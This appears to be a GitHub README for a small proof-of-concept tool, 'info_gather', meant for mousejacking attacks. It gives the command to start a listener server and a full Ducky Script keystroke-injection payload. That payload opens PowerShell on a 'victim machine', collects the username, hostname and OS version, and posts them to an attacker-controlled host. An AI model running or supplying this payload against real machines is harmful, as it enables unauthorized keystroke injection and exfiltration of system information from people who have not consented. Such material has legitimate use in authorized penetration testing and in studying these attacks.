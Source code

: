 # info_gather
Gather Windows Info for POC. A good use case is mousejacking

Run the server and any port using:

```
python3 info_gather.py 80
```

On the victim machine use a Ducky Script to send the info to the server host:

```
DELAY 2000
GUI r
DELAY 500
STRING powershell.exe
DELAY 500
ENTER
DELAY 500
STRING $username = $env:username;$hostname = hostname;$os = (Get-CimInstance Win32_OperatingSystem).Caption;$data = @{'username' = $username;'hostname' = $hostname;'os' = $os};$json = $data | ConvertTo-Json;Invoke-RestMethod -Method Post -Uri "http://yourserver.com" -Body $json -ContentType "application/json"
DELAY 500
ENTER
```
